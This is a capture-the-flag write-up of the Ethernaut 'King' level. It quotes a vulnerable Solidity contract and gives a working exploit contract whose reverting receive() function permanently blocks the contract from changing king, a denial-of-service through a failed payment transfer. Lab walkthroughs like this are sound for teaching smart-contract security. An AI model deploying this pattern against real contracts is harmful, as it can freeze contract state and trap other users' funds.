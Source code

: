 ![King](/assets/img/BigLevel9.svg)

- [Challenge](#challenge)
- [Solution](#solution)
   
# Challenge

The level reads:

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
>
> Such a fun game. Your goal is to break it.
>
> When you submit the instance back to the level, the level is going to reclaim kingship. You will beat the level if you can avoid such a self proclamation.

And this is the code of the contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {

  address king;
  uint public prize;
  address public owner;

  constructor() payable {
    owner = msg.sender;  
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    payable(king).transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address) {
    return king;
  }
}
```

# Solution

As usual, we start by reading the contract's code, in order to understand what it does. In this case, when the `King` contract receives a value greater than the prize, it sends the `msg.value` to the previous king and updates the `prize` and `king` variables.

Note that the level states that when we submit the instance, the level is going to try to reclaim the kingship. Presumably by sending some ETH.

So, how could we make the contract not to update the king? If we look at the `receive()` function, we see that the only time that the contract interacts with an external address is when it calls `payable(king).transfer(msg.value)`. Would it be possible for us to make that transaction not to work? 

Well, that wouldn't be possible for us directly interacting with the contract, as the king would be our wallet's address, and there is no way for us to not accept that funds' transfer. But, what would happen if the "king" is another contract (created by us)?

We could create a contract that sends some ETH to the `King` contract in order to claim the kingship of the contract. Then, if we submit the instance, the level is going to try to reclaim it. At that point the contract is going to send ETH (sent by the reclaimer) to the previous king, and that would be our contract. At this point we could define a `receive()` function that just reverts the transaction. Generating an unhandled exception on the `King`'s contract. Thus, winning the level :) 

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Solver {

    receive() external payable {
        revert();
    }

    function solve(address payable _kingAddress) public payable {
        (bool sent, ) = _kingAddress.call{value: msg.value}("");
        require(sent, "Failed to send Ether");
    }
}
```

We just need to deploy that contract and call `solve()` with the King contract's address as input, and a value greater than the actual prize.
The initial value of `prize` is:

```javascript
await contract.prize().then(v => v.toString())
'1000000000000000'
```

Now we can execute solve() with a value of, let's say, 1000000000000001 and the King's contract address as input to make our `Solver` contract the new "king". At this point, the King game is broken, and the king variable is never going to be updated again.

We only need to submit the instance, and we won the level!!

![Well done](/assets/img/ethernaut_solved.png)

